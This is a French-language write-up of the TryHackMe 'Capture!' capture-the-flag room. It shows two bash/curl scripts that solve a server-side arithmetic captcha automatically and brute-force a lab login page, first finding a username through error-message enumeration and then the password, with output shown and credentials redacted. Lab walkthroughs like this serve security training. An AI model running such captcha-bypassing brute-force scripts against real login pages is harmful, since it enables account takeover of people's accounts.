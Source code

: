 
# THM - Capture! writeup

Lien : https://tryhackme.com/room/capture

## Etape 1 : discovery
On a un site à disposition, avec une petite histoire : pas de WAF, les développeurs ont fait leur propre popote...

On commence par télécharger une archive Zip, avec une liste de usernames et une liste de password. Facile - _trop facile_ ?

On se connecte sur le site : rien de particulier, une simple page de login.
Sauf que très vite, si on essaye des combinaisons au pif, un captcha apparait !

C'est une simple opération arithmétique. **Mais** on remarque
- qu'il n'y a aucun cookie, aucun champ caché dans le formulaire
- que si la valeur du captcha est mauvaise, on a un "Invalid captcha" - au lieu d'un "user does not exist"

--> Conclusion : le captcha est géré _server-side_, autrement dit pas possible de faire des requêtes en parallèle : chaque nouvelle HTTP request doit contenir la réponse au captcha de la HTTP response précédente 😞 

Ça veut dire : pas le droit à Hydra, ni Ffuf, ni quoi que ça soit d'autre.

Pas grave, on passe en mode manuel.

## Etape 2 : trouver le username
Le message d'erreur est un indice : l'utilisateur "does not exist". Autrement dit, avec un utilisateur qui existe, on aurait (peut-être, _probablement_ même) un message différent.

Résoudre le captcha n'est pas un souci : la question est sur la 97ème ligne de la HTTP response précédente, et une simple opération peut être automatisée.

On commence donc par écrire le script suivant pour extraire le username.

```
#!/bin/bash
curl 'http://10.10.240.139/login' -X POST \
  --data-raw 'username=test&password=test' > lastresponse


for i in $(cat usernames.txt); do
        # Get captcha answer from last HTTP responsei, line 97
        # (use bc to get the result)
        captcha=$(cat lastresponse | sed -n '97p'|sed 's/ =.*//' | bc)

        # username cleansing - too lazy to set IFS
        user=$(echo $i|sed 's/[^a-z]//g')

        # new attempt
        curl 'http://10.10.240.139/login' -X POST \
          --data-raw "username=$user&password=test&captcha=$captcha" \
          > lastresponse

        # check if last response is different
        cat lastresponse | sed -n '105p' | grep -v "does not exist" \
         && echo $user && break
done
```

Y'a plus qu'à :
```
┌──(root㉿kali)-[~/Downloads]
└─# ./get_username.sh 2>/dev/null
    <p class="error"><strong>Error:</strong> Invalid password for user &#39;xxxREDACTEDxxx&#39;
xxxREDACTEDxxx
```

Et hop on a le username en quelques secondes.

## Etape 3 : trouver le password
On va faire exactement pareil, à un détail près : si on trouve le bon password, on risque de _ne pas_ avoir de message d'erreur. **Mais** on n'aura probablement aucun captcha à calculer pour la fois suivante -- donc le message suivant sera probablement "Invalid Captcha"

```
curl 'http://10.10.240.139/login' -X POST \
  --data-raw 'username=test&password=test' > lastresponse

$previous=
for i in $(cat passwords.txt); do
        # Get captcha ...
        captcha=$(cat lastresponse | sed -n '97p'|sed 's/ =.*//' | bc)
        # Too lazy again...
        password=$(echo $i | sed 's/[^a-zA-Z0-9]//')
        curl 'http://10.10.240.139/login' -X POST \
          --data-raw "username=$1&password=$password&captcha=$captcha" \
          > lastresponse
        cat lastresponse | sed -n '105p' | grep -v "Invalid password for" \
          && echo $previous && break
        previous=$password
done
```

Encore une fois, y'a plus qu'à :

```
┌──(root㉿kali)-[~/Downloads]
└─# ./get_password.sh xxxREDACTED_USERxxx 2>/dev/null
    <p class="error"><strong>Error:</strong> Invalid captcha
xxxREDACTED_PASSWORDxxx
```

## Etape 4 (et dernière) : trouver le flag
Là, c'est plutôt simple : on se logge avec le username et le password qu'on a trouvé : il s'affiche. Tout simplement.

Et voilà !
